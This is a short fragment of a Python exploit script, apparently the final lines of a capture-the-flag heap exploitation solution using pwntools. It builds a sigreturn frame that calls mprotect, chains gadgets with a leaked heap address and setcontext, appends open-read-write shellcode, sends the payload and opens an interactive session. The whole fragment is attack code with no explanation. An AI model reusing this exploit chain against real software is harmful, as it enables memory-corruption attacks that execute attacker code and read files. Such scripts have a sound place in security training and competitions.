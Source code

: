 ```Python
    sigframe.rdx = 7
    sigframe.rip = mprotect
    code2 = p64(gadgets) + p64(leak_heap) + p64(0) + p64(setcontext)
    code2 +=p64(setcontext)+asm(orw)+str(sigframe)[0x68:0xb0]
    code2 += p64(leak_heap+0x28)
    sl(code2)

    it()
if __name__ == '__main__':
        exp()
```

# 